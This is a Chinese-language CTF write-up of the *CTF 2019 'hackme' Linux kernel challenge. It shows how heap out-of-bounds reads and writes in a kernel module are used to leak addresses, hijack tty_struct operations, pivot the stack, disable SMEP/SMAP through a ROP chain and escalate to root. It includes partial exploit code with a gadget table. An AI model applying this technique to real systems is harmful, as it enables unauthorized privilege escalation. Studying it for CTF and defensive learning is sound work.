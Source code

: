 ```yaml
---
layout: post
title: startctf2019 hackme Write-up
date: 2021-09-13
Author: LJP-TW
tags: [CTF]
comments: true
toc: true
excerpt_separator: <!--more-->
---
```


# 前言

練習了一下如何 bypass SMAP+SMEP，這題的漏洞很好利用，很適合拿來練習利用手段。
<!--more-->

# 題目介紹
這題主要是要打一個有問題的 kernel module，此 kernel module 用 `misc_register()` 註冊了簡易的 device，其路徑為 `/dev/hackme`。

保護機制有開 SMAP、SMEP。
* SMEP (Supervisor Mode Execution Prevention):
    * 禁止執行 user-space code
    * 暫存器 CR4 第 20 bit
* SMAP (Supervisor Mode Access Prevention)
    * 禁止讀寫 user-space memory
    * 暫存器 CR4 第 21 bit

這題打法是利用 heap 超出範圍讀寫，分配出 `tty_struct` 結構 leak 出 kernel 位址，並且控制執行流，將 ROP chain 放在 kernel-space 裡，利用大意為 `push rax; pop rsp;` 的 gadget 進行 stack migration，跳完 ROP 後提權。

另外還想試試看其他 exploit 的方式可不可行
* 直接改 cred 的內容
* 改 modprobe_path
* 只利用 race condition 漏洞來打這題

求大神帶一下 <(_ _)>

# Reverse
* 就四個功能淺顯易懂
* 釋放
![image-20210913210929304](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-13-startctf2019-hackme/image-20210913210929304.png)

* 寫入
![image-20210913211019861](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-13-startctf2019-hackme/image-20210913211019861.png)

* 讀出
![image-20210913211103338](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-13-startctf2019-hackme/image-20210913211103338.png)

* 創造
![image-20210913211137231](https://raw.githubusercontent.com/LJP-TW/blog/master/images/post/2021-09-13-startctf2019-hackme/image-20210913211137231.png)

# Vulnerability
* 所有功能都沒有考慮 race condition 的問題
* 讀寫功能 offset 可以是負的，size 設定成讓其符合條件的數值即可，如此就能超出範圍讀寫

# Exploit
* [完整 exploit 連結](https://github.com/LJP-TW/CTF/blob/master/startctf2019/hackme/exploit.c)
* 後面零碎的解釋 exploit

```c
#define PAUSE do { scanf("%*c"); } while(0);
```
* 方便卡住一下 exploit，然後能用 gdb 連進去 debug

```c
// Gadget that needs to adjust
#define KERNEL_TEXT 0
#define POP_RCX 1
#define MOV_RDI_RAX_CALL_RCX_POP_RBP 2
#define RET 3
#define PUSH_RAX_POP_RSP_POP_RBP 4
#define POP_RDI 5
#define COMMIT_CREDS 6
#define PREPARE_KERNEL_CRED 7
#define SWAPGS_POPFQ_POP_RBP 8
#define IRETQ 9
#define POP_RBP 10
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_POP_RBP 11
#define POP_RAX 12
#define POP_R12_R15 13

ULL gadgets[] = {
    0xffffffff81000000,
    0xffffffff81633ad8,
    0xffffffff810a1f77,
    0xffffffff810001cc,
    0xffffffff8116b3c5,
    0xffffffff81033de0,
    0xffffffff8104d220,
    0xffffffff8104d3d0,
    0xffffffff81200c2e,
    0xffffffff81019356,
    0xffffffff810003af,
    0xffffffff8100252b,
    0xffffffff8101b5a1,
    0xffffffff81033ddd,
};

...

    for (int i = 1; i < sizeof(gadgets) / sizeof(ULL); ++i) {
        gadgets[i] = gadgets[i] - gadgets[0] + (ULL)kernel_text;
    }
```
* 因為 gadget 真正的位址需要調整，個人覺得這樣寫還蠻好看的就這樣寫了
* 由於 tty_struct 大小為 0x2e0，其所屬的 slab object 大小為 0x400，所以可以看到 exploit 中分配的大小直接都是 0x400
* 簡單來說，先後分配了 A、B object 後，將 A 釋放，通過對 B 超出讀能夠讀到 A 的內容，如此能 leak 出 slab address
    * 這個 address 為下一塊 free object 的位址，若此頁是全新的一頁，那麼此位址會是緊貼於 B 的下一塊 object 位址，也就是說此 address - 0x400 為 B 的位址
* 再次分配 tty_struct，此時其會分配到 A，通過對 B 超出讀能夠讀到 A 的內容，如此能 leak 出 kernel pointer
* 通過對 B 超出寫能夠改掉 tty_struct

```c
struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;	/* class device or NULL (e.g. ptys, serdev) */
	struct tty_driver *driver;
	const struct tty_operations *ops;
	int index;
    ...
```
* offset 0x18 為 ops，改成指向 B
* 接著在 B 偽造假的 `struct tty_operations`

```c
struct tty_operations {
	struct tty_struct * (*lookup)(struct tty_driver *driver,
			struct file *filp, int idx);
	int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
	void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
	int  (*open)(struct tty_struct * tty, struct file * filp);
	void (*close)(struct tty_struct * tty, struct file * filp);
	void (*shutdown)(struct tty_struct *tty);
	void (*cleanup)(struct tty_struct *tty);
	int  (*write)(struct tty_struct * tty,
		      const unsigned char *buf, int count);
	int  (*put_char)(struct tty_struct *tty, unsigned char ch);
    ...
```
* 偽造 write function pointer 為效果為 `push rax; pop rsp;` 的 gadget
* 後續就是 ROP
    * 把 CR4 中的 SMEP、SMAP 欄位關掉
    * 如此就能直接在 user-space 執行 `commit_creds(prepare_kernel_cred(0));`
    * 其實到目前為止，後續的 swapgs、iretq 都沒有一定要用 ROP 的方式去做了，就直接執行就好

# Reference
* [linux kernel pwn学习之堆漏洞利用+bypass smap、smep](https://blog.csdn.net/seaaseesa/article/details/104591448)
* [sixstars/starctf2019](https://github.com/sixstars/starctf2019/tree/master/pwn-hackme)
